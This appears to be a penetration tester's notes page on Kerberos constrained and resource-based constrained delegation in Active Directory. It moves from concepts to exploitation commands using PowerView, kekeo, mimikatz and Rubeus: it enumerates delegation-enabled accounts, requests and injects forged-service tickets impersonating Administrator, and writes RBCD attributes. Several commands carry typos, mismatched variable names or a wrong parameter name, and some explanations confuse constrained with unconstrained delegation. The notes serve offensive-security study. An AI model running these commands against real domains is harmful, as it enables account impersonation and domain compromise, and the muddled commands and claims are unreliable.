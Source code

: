#kekeo #mimikatz #powershell 
- [Unconstrained Delegation](Unconstrained%20Delegation.md) is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag set, can request a TGS for the another service for the user. 
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [SPN](Active%20Directory/AD%20Concepts/Services#SPN) of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
---
Constrained Delegation works in one of the two ways:
- S4U2Proxy (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) + S4U2Self (Classic Constrained Delegation) (`msDS-AllowedToDelegateTo`)
	- The compromised user/machine account should have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` in the UAC, and the service for delegation should be mentioned in the `msDS-AllowedToDelegateTo` attribute of the compromised user/machine.
- S4U2Self (Resource Based Constrained Delegation) (`msDS-AllowedToActOnBehalfOfOtherIdentity`)
	- This moves the delegation authority to the the service/resource owner, instead of the administrator. Or in fact any user, having `Full` or `GenericWrite` over the target service.
	- The service account that can request ST should be mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the delegated service's service account.
# Exploitation
## Classic Constrained Delegation
Classing Constrained Delegation involves compromising a account with `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` and some SPNs in `msDS-AllowedToDelegateTo` attribute. We can simply tell the compromised user/computer account to ask for ST for the service mentioned in the `msDS-AllowedToDelegateTo`.
### Enumeration
- Enumerating users and computers which constrained delegation enabled using
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
- Kekeo
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
- Rubeus
```powershell
# This will use the TGT of websvc to ask for ST of impersonator user to access the msdss delegated service, and inject the ticket in memory
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
> unconstrained delegation performs no validation for the service mentioned in the `msDS-AllowedToDelegateTo`, hence, we can request the ST for the intended service and modify the ticket for another service. We can the add the `/altservice:<protocol>` to rubeus to modify the service ticket. Hence, the below command will request ST for the `msdsspn` account and modify the service.
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt /altservice:ldap
```
## RBCD
RBCD exploitation Involves having write access to an object that we want to exploit.
- Set up RBCD attribute on the target service.
- Using AD Module
```powershell
# We should already have local admin access on the computer1 account.
$compputers = "mycomputer$";
Set-ADComputer -Identity targetcomputer -PrincipalsAllowedToDelegateTo $computers;
```
- Powerview
```powershell
# Set RBCD delegation
Set-DomainRBCD -Identity targetcomputer -DelegateFrom 'mycomputer$';
# We can verify the same using
Get-DomainRBCD
```
- We can now use the same s4u module from rubeus to impersonate a user
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
